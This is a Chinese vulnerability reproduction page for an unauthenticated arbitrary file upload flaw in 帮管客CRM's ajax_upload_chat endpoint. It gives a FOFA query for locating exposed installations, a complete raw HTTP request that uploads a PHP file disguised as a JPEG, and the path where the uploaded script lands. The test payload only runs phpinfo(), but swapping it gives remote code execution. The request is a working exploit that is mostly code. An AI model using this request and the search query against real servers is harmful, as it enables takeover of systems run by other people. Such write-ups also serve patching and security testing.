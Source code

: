 # 帮管客CRM ajax_upload_chat存在任意文件上传漏洞

# 一、漏洞简介
帮管客CRM是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客CRM客户管理系统，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化.帮管客CRM ajax_upload_chat、ajax_upload等接口处存在文件上传漏洞，未经授权的攻击者可利用该漏洞获取服务器权限。

# 二、影响版本
+ 帮管客CRM

# 三、资产测绘
+ fofa`app="帮管客-CRM"`
+ 特征

![1706689730844-244c90a3-963a-47a3-ab90-419f4b5c87bc.png](./img/h4aYWkJUdTJ5y2vF/1706689730844-244c90a3-963a-47a3-ab90-419f4b5c87bc-024774.png)

# 四、漏洞复现
```plain
POST /index.php/upload/ajax_upload_chat HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryv1WbOn5o

------WebKitFormBoundaryv1WbOn5o
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo();unlink(__FILE__);
------WebKitFormBoundaryv1WbOn5o--
```

![1706690830026-a7bab378-c87a-46bc-85d4-686ab7e8fb18.png](./img/h4aYWkJUdTJ5y2vF/1706690830026-a7bab378-c87a-46bc-85d4-686ab7e8fb18-379617.png)

上传文件位置

```plain
//data//uploads//uploads_chat//202401//202401311645381ARfoVrTb.php
```

![1706690872806-eb87eaac-9761-44e5-8d65-22646a6ab0f5.png](./img/h4aYWkJUdTJ5y2vF/1706690872806-eb87eaac-9761-44e5-8d65-22646a6ab0f5-162023.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zv9kvh2812magvgl>